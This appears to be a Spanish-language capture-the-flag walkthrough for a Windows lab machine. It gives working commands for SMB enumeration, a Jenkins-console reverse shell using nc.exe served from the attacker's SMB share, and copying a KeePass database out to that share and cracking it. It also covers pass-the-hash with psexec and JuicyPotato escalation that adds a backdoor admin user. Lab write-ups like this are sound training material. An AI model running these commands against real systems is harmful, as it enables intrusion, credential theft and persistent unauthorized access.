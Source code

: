 https://www.youtube.com/watch?v=TwJiEWjI6Go
# Fase de reconocimiento
#win 
## Puertos:
80
445
50000 Jetty
## SMB
```
crackmapexec smb <ip>
```
```
smbclient -L <ip> -N
```
```
smbmap -H <ip>
```
![[Pasted image 20240513202009.png]]
## Fuzzing
```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
# Fase de ataque
En al ruta del Jenkins está expuesto el "Administrar Jenkins" desde donde se puede enviar una reverse shell.
Como es Windows:
1. Compartirnos el nc.exe por un recurso compartido
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
2. Ejecutamos a través del recurso compartido un reverse shell en Jenkins
```
println "\\\\<ipa>\\smbFolder\\nc.exe -e cmd <ipa> 443".execute().text
```
3. Nos ponemos en escucha
```
rlwrap nc -nlvp 443
```
[-] ==pwned!==
# Privilege Escalation
## 1 Forma
### KeePass Crack
1. Encontramos el archivo .kdbx en el equipo
2. Copiamos en el recurso compartido
```
copy <archivo> \\<ipa>\smbFolder\<archivo>
```
3. Instalamos KeePass
```
apt install keepassxc
```
4. Convertimos el archivo
```
keepass2john <archivo.kdbx>
```
5. Crackeamos para conseguir la contraseña
```
john --wordlist=/usr/share/wordlist/rockyou.txt <arhivohash>
```
Encontramos en KeePass un hash= hash:==hash==
### Pass The Hash
Probamos el hash encontrado con crackmapexec
```
crackmapexec smb <ip> -u 'Administrador' -H '<hash>'
```
![[Pasted image 20240513204249.png]]
Nos conectamos con el Hash
```
psexec.py WORKGROUP/Administrator@<ip> -hashes :<hash>
```
[+] ==pwned!==
Ver archivos ocultos windows
```
dir /r /s
```
## 2 Forma
Ver privilegios
```
whoami /priv
```
Como tenemos privilegios SeImpersonatePrivilege
Copiamos el JuicyPotato por recurso compartido
```
copy \\<ipa>\smbFolder\Juicy.exe JP.exe
```
Creamos un usuario con privilegios
```
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user test pass1234 /add" -l 1337
```
Cambiamos el registro
![[Pasted image 20240513205400.png]]
Probamos que sea Admin
```
crackmapexec smb <ip> -u 'test' -p 'pass1234'
```
Nos conectamos
```
psexec.py WORKGROUP/test@<ip> cmd.exe
```
[+] ==pwned!==
Crear recurso compartido en su caso
```
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net share folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337
```